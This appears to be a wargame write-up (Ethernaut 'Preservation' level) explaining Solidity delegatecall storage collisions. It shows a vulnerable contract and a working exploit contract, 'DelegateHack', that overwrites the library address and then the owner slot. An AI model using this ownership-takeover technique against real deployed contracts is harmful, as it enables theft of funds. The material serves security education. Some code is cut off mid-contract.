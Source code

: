 # Understanding Delegate Call in Solidity Contracts

## Introduction
In Solidity smart contracts, delegate calls are a powerful feature that enables one contract to execute code from another contract while preserving the context of the calling contract. This mechanism is crucial for implementing upgradable contracts, where logic can be changed without modifying the contract's state or storage. In this article, we'll delve into how delegate calls work and explore a practical example.

## Overview
The example contract `Preservation` demonstrates the usage of delegate calls. It consists of two library contracts (`timeZone1Library` and `timeZone2Library`) and a main contract `Preservation`. The main contract's purpose is to delegate calls to these libraries for setting timestamps for different time zones.

## How Delegate Calls Work
Delegate calls execute the code of the called contract within the context of the calling contract. This means that the called contract's code is run, but the state variables, `msg.sender`, and `msg.value` are all taken from the calling contract.

### Implementation Details
- The `Preservation` contract has two public library addresses: `timeZone1Library` and `timeZone2Library`.
- The `setFirstTime` and `setSecondTime` functions in `Preservation` contract delegate calls to the respective time zone libraries.
- The `LibraryContract` holds a `storedTime` variable and provides a `setTime` function to update it.

## Exploiting Delegate Call
In this level, we exploit the delegate call mechanism to modify critical state variables in the target contract. Here's how it's done:

1. Deploy the contract and obtain its address.
2. Call `setFirstTime` function with the address of the deployed contract as an argument. This will execute the library contract's code, modifying the storage of the deployed contract.
3. Define a `setTime` function in the deployed contract. This function will manipulate the target contract's storage directly.
4. With the `setTime` function, modify critical variables like `owner`, thereby altering the behavior of the target contract.

## Conclusion
Understanding delegate calls is crucial for building robust and upgradable smart contracts in Solidity. While powerful, they also come with security implications, especially when interacting with external contracts. Developers must carefully design their contracts and thoroughly test delegate call functionalities to ensure the security and integrity of their decentralized applications.

By grasping the concepts outlined in this article, developers can leverage delegate calls effectively and build more flexible and maintainable smart contract systems.


### Preservation

    ```solidity
    // SPDX-License-Identifier: MIT
    pragma solidity ^0.8.0;
    
    contract Preservation {
    
      // Public library contracts 
      address public timeZone1Library;
      address public timeZone2Library;
      address public owner; 
      uint storedTime;
      // Function signature for delegatecall
      bytes4 constant setTimeSignature = bytes4(keccak256("setTime(uint256)"));
    
      constructor(address _timeZone1LibraryAddress, address _timeZone2LibraryAddress) {
        timeZone1Library = _timeZone1LibraryAddress; 
        timeZone2Library = _timeZone2LibraryAddress; 
        owner = msg.sender;
      }
     
      // Set the time for timezone 1
      function setFirstTime(uint _timeStamp) public {
        timeZone1Library.delegatecall(abi.encodePacked(setTimeSignature, _timeStamp));
      }
    
      // Set the time for timezone 2
      function setSecondTime(uint _timeStamp) public {
        timeZone2Library.delegatecall(abi.encodePacked(setTimeSignature, _timeStamp));
      }
    }
    
    // Simple library contract to set the time
    contract LibraryContract {
    
      // Stores a timestamp 
      uint storedTime;  
    
      function setTime(uint _time) public {
        storedTime = _time;
      }



    ```solidity
    // SPDX-License-Identifier: MIT
    pragma solidity ^0.6.0;
    
    import "../instances/Ilevel16.sol";
    
    contract DelegateHack {
    
        address public t1;
        address public t2;
        address public owner;
        Preservation level16 = Preservation(0x1E422B805DC5541a09fBbf239D734313B9F42Eca);      
    
        function exploit() external {
            level16.setFirstTime(uint256(address(this)));
            level16.setFirstTime(uint256(0xEAce4b71CA1A128e8B562561f46896D55B9B0246));
        }
    
        function setTime(address _owner) public {
            owner = _owner;
        }
    
    }

